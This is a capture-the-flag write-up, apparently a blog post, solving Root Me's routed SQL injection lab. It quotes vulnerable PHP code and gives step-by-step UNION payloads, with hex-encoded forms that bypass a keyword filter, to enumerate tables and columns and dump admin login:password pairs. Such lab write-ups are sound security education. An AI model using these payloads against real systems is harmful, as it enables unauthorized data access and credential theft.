 ```yaml
---
title: "SQL injection - Routed"
tags:
    - Lab
    - Root Me
date: "2024-06-22"
thumbnail: "/assets/img/thumbnail/rootme.png"
bookmark: true
---
```

## Description

Retrieve the administrator password.

Routed SQL Injection!!!

First time hearing about it, so I searched to see what it is, and I found that this is a situation where the injectable query is not the one which gives output, but the output of the injectable query goes to the query which gives the output.

Let's look at this snippet of code to understand more.

 ```php
 <?
 $id=$_GET['id'];

 $query="SELECT id,sec_code FROM users WHERE id='$id'";
 
if (!$result=mysql_query($query,$conn))
   die("Error While Selection process : " . mysql_error());
if(mysql_num_rows($result) == 0)
	die();

$row = mysql_fetch_array($result, MYSQL_ASSOC);

$query="SELECT username FROM users WHERE sec_code='".$row['sec_code']."'";

echo "<br><font color=red>This is the query which gives you Output : </font>$query<br><br>";

if (!$result=mysql_query($query,$conn)) 
 die("Error While Selection process : " . mysql_error());

if(mysql_num_rows($result) == 0)
	die("Invalid Input parameter");
   
   $row = mysql_fetch_array($result, MYSQL_ASSOC);
    	echo 'Username is : ' . $row['username'] . "<br>";?>
 ```

The magic here is that - the output of the first query is used as the input of the second query and it is the second query which displays output back to us. Or in other words, in order to exploit the SQL Injection vulnerability, we need to control the input for the second query - the variable sec_code (which happens to be the output of the first query). You may have already noticed that, due to the fact that the first query is vulnerable to SQL Injection, we can control and set sec_code to an arbitrary value

## Routed Challange

<a href="http://challenge01.root-me.org/web-serveur/ch49/">Challange Link</a>
<a href="https://cryptii.com/pipes/hex-decoder/">Hex decoder</a>

Let's exploit our challange:
 starting by confirming that it is vulnerable to SQL Injection by sending a single quote ' as payload:

<img src="/assets/img/rootme/routed/1.png" alt="quote">

 ok, now i ll inject simple payload `' union select 1 -- -` what this  will do??
this will escape the first SQL query and set both values, the second one (representing sec_code in our ecample) to the value 1
 
 as we said that sec_code is the output of first query and it's the input for the second query. now it has a value, the second query will run successfully and return output for the value 1

<img src="/assets/img/rootme/routed/2.png" alt="union1">

also this will happen if we set the value to 2 `' union select 2 -- -`

<img src="/assets/img/rootme/routed/3.png" alt="union2">

what if we set the second one to `True` ?? it will dump all the record in the DB yes!
So, the query would be `' union select ' or true -- - -- -` 

<img src="/assets/img/rootme/routed/4.png" alt="attack detected">

but i get an alert "Attack detected" mmmmmm there are filters !

## Bypass the Filter

the basic bypass to the filter, i will `HEX encode` the term that be blocked `' or true -- -` 

<img src="/assets/img/rootme/routed/5.png" alt="hex1">

<img src="/assets/img/rootme/routed/6.png" alt="hex2">

it appears that there are 3 IDs, now we can bypass the filter easily and can control the second part of the query.
let's determine how many columns by using `Order by` 
the Sql table contains 2 columns cuz when try to order by 3 , i get an error that it's unknown

payload
```sql
 ' union select ' order by 3 -- - -- - 

payload after hexed : ` ' union select 0x27206f726465722062792033202d2d202d -- -`
```
<img src="/assets/img/rootme/routed/7.png" alt="orderby">

now we know that the output is [ID & Email]
if we use union select once again here we can return any output that we want
So,Let's use SQL functions like `current_user()` and `@@version`

Payload
```sql
' union select ' union select current_user(),@@version -- - -- -

after hex encode: `' union select 0x2720756e696f6e2073656c6563742063757272656e745f7573657228292c404076657273696f6e202d2d202d -- -`
```

<img src="/assets/img/rootme/routed/8.png" alt="version">

we are now in a situation that resembles a normal SQL Injection.
we want to know the name of the tables that are in the DB 

## Retrieve Table name

payload
```sql
' union select ' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database() -- -

after hex encode: ' union select 0x2720554e494f4e2053454c454354207461626c655f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e7461626c6573205748455245207461626c655f736368656d61203d2064617461626173652829202d2d202d -- -
```

<img src="/assets/img/rootme/routed/table.png" alt="table">

## Retrieve Columns names

the table called user has two columns, let's get the columns' names 

payloads
```sql
 -
' union select' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = database() LIMIT 1, 1 -- -

after hex : ' union select 0x2720554e494f4e2053454c45435420636f6c756d6e5f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d202775736572732720414e44207461626c655f736368656d61203d2064617461626173652829204c494d495420312c31202d2d202d -- -

' union select' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = database() LIMIT 2, 1 -- -

after hex : ' union select 0x2720554e494f4e2053454c45435420636f6c756d6e5f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d202775736572732720414e44207461626c655f736368656d61203d2064617461626173652829204c494d495420322c31202d2d202d -- -
```
these two payloads return columns' names `Login & Password`

## Retrieve Admin Password

Finallyyyyy, let's retrieve the admin password by using `Gorup_concat`

payload
```sql
' union select ' union  select 1,(select group_concat(login, ':' ,password) from users) -- -

after hex :' union select 2720756e696f6e202073656c65637420312c2873656c6563742067726f75705f636f6e636174286c6f67696e2c20273a27202c70617373776f7264292066726f6d20757365727329202d2d202d -- -
```
<img src="/assets/img/rootme/routed/9.png" alt="admin password">


I know it was a long write-up, but I hope it can be useful.
 See you in another one :)


















